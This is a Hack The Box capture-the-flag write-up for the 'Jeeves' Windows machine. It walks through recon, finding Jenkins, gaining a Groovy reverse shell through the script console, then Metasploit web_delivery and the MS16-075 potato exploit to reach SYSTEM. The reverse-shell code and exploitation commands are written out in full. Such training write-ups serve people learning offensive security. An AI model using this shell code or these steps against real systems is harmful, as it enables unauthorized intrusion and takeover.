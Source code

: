 # Hackthebox - Jeeves - Windows

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T4 -A -p- 10.10.10.63                                                                                     
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-08 13:34 EDT
Nmap scan report for 10.10.10.63
Host is up (0.025s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
|_http-title: Ask Jeeves
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
|_http-title: Error 404 Not Found
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2008|10|7|Vista (88%)
OS CPE: cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_10:1607 cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1
Aggressive OS guesses: Microsoft Windows Server 2008 R2 (88%), Microsoft Windows 10 1607 (85%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (85%), Microsoft Windows Server 2008 SP1 or Windows Server 2008 R2 (85%), Microsoft Windows 7 (85%), Microsoft Windows Vista SP0 or SP1, Windows Server 2008 SP1, or Windows 7 (85%), Microsoft Windows 10 1511 - 1607 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-04-08T22:44:11
|_  start_date: 2022-04-08T22:41:38
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: mean: 5h07m23s, deviation: 0s, median: 5h07m23s

TRACEROUTE (using port 80/tcp)
HOP RTT      ADDRESS
1   24.57 ms 10.10.14.1
2   24.81 ms 10.10.10.63

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 161.40 seconds
```

## Port 80

- We have this page  
![image](https://user-images.githubusercontent.com/96747355/162480794-234ea1a6-2011-4711-8a9f-314e2c507d5b.png)  
- It seems gives stack trace when trying to search for something  
![image](https://user-images.githubusercontent.com/96747355/162480895-aa19e42f-fb54-4856-8ad7-466d12a88bc0.png)  
- But it is just an image, indeed the action of the form will just go to error.html  
![image](https://user-images.githubusercontent.com/96747355/162491383-cb18df99-b49a-4756-90e3-799604a31d7f.png)  
- Gobuster does not give much

## Port 50000

- Here is what we see on the browser for this port:  
![image](https://user-images.githubusercontent.com/96747355/162493795-4fe4f32f-faab-4c7d-99ad-1f9b0a412953.png)  
- Gosbuster does not always work for the first time we need to use different wordlists, I tried a few before getting to the askjeeves result.
The one that gave the result is `directory-list-2.3-big.txt`  
![image](https://user-images.githubusercontent.com/96747355/162494821-57bd90c5-9d26-48f7-939a-870263ae7143.png)  
- If we navigate to /askjeeves we have a jenkins server  
![image](https://user-images.githubusercontent.com/96747355/162495024-ec8fd547-0209-4636-884a-b1875a8dd578.png)  
- If we go to jenkins cli we can use a jar and execute command from it  
![image](https://user-images.githubusercontent.com/96747355/162495714-82ed035e-60cf-4625-8789-efcb4a866a31.png)  
- If we look at the system info we get a user name: `kohsuke`
- Script console also seems interesting, let's try to get a reverse shell this way  
![image](https://user-images.githubusercontent.com/96747355/162497679-2689b9d3-30b4-4893-bde5-f37e39037565.png)  
We can find one online [here](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76):  
```
String host="localhost";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
- Let's set a listener `rlwrap nc -lvp 8044`
- It works we are `jeeves\kohsuke`  

![image](https://user-images.githubusercontent.com/96747355/162498078-6e956d86-11e2-4777-90b0-ce01df2862a4.png)  
- We can grab our user flag `type C:\Users\kohsuke\Desktop\user.txt`
- Here are our privileges  
![image](https://user-images.githubusercontent.com/96747355/162498730-ef2fc0c3-4e26-4ab7-9ddc-852a8d86f9df.png)  
We have the `SeImpersonatePrivilege` enabled  
- We can use [windows exploit suggester](https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py) with sysinfo
  - `wget https://raw.githubusercontent.com/AonCyberLabs/Windows-Exploit-Suggester/master/windows-exploit-suggester.py`
  - `python windows-exploit-suggester.py -update` (to get the latest db file)
  - `python windows-exploit-suggester.py --database 2022-04-08-mssb.xls -i ../sysinfo.txt`
- We have a lot of options including potatoes

## Privesc with rotten potato

- Launch msfconsole
- `use exploit/multi/script/web_delivery`
- `show targets`
- `set target 2` for PSH
- `set payload windows/meterpreter/reverse_tcp`
- `set lhost tun0`
- `set SRVHOST tun0`  
![image](https://user-images.githubusercontent.com/96747355/162503009-09193505-df80-40bc-a82d-ecfb66ab7e0f.png)  
- Now we just need to execute this in our target  
![image](https://user-images.githubusercontent.com/96747355/162503184-48f16a14-1aa9-47e1-bf00-58fb2009657f.png)  
- And we get a meterpreter session  
![image](https://user-images.githubusercontent.com/96747355/162503310-814f334c-1d69-4d5d-80c4-a9d94c3675c0.png)  
- Let's interact with it `sessions -i 1`
- To get the build in potato options lets use metasploit exploit suggester `run post/multi/recon/local_exploit_suggester`  
![image](https://user-images.githubusercontent.com/96747355/162503846-dd872c5a-8441-4438-878d-6aacc4ffd8a7.png)  
- Using ctrl+z lets now background the shell
- `use exploit/windows/local/ms16_075_reflection_juicy`
- `show options`
- `set session 1`
- `set LHOST tun0`
- `run`  
![image](https://user-images.githubusercontent.com/96747355/162506387-94421e6a-131a-49cf-a480-bd059561f668.png)  
- And it worked  
![image](https://user-images.githubusercontent.com/96747355/162506825-ffece6c6-6452-4fb5-91a3-980250db8dfd.png)  
- `load incognito`
- `list_tokens -u`
- `impersonate_token "NT AUTHORITY\SYSTEM"`
- Event though we got authority system the root flag is not here instead we have this  
![image](https://user-images.githubusercontent.com/96747355/162508399-2b49e318-02e9-4a1f-b127-2a54e6b320ca.png)  
- if we `dir /R` we can see our flag
- `more < hm.txt:root.txt:$DATA` we can do this to print it  
- [Here](https://blog.malwarebytes.com/101/2015/07/introduction-to-alternate-data-streams/) are a few methods on how to print alternate data streams

